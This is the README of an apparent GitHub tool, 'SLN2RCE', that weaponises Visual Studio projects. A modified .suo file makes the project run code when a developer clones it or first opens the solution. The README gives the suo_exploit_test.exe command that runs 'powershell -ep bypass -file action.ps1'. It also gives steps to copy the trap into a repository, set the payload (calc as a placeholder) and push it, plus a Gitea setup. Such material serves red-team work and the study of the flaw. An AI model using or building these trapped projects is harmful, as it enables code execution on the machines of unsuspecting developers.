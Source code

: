 #########
SLN 2 RCE
#########

| Weaponize Visual Studio project to trigger RCE using SUO file (Solution User Options)
|
| All credit goes to cjm00nw, edwardzpeng & moom825
|  https://github.com/cjm00n/EvilSln
|  https://github.com/moom825/visualstudio-suo-exploit

|
| RCE happen when cloning project into VS or when opening the sln project file for the first time (VS overwrite the suo file)
|
| The suo file has been modified using suo_exploit_test.exe to overwrite the initial suo file generated by VS

.. code-block:: powershell

    suo_exploit_test.exe .suo test.suo powershell -ep bypass -file action.ps1

|

| action.ps1 will start a calc but you can replace it

.. code-block:: bash

    # Move to a new temp dir
    cd $(mktemp -d)

    # Clone SLN2RCE and your payload project
    git clone https://github.com/charlesgargasson/SLN2RCE.git
    git clone http://localhost:3000/user2/repo.git

    # Copy SLN2RCE to your empty project
    cp -r SLN2RCE/* repo/

    # Set command
    echo 'calc' > repo/action.ps1

    # Push modifications 
    cd repo
    git add *
    git commit -m ok
    git push

|

| If you need a git instance

.. code-block:: bash

    cat <<'EOF'>/tmp/gitea.yml
    version: "3"

    networks:
    gitea:
        external: false

    services:
    server:
        image: gitea/gitea:1.22.3
        container_name: gitea
        environment:
        - USER_UID=1000
        - USER_GID=1000
        restart: always
        networks:
        - gitea
        volumes:
        - /tmp/gitea:/data
        - /etc/timezone:/etc/timezone:ro
        - /etc/localtime:/etc/localtime:ro
        ports:
        - "3000:3000"
        - "222:22"
    EOF

    docker-compose -f /tmp/gitea.yml up

|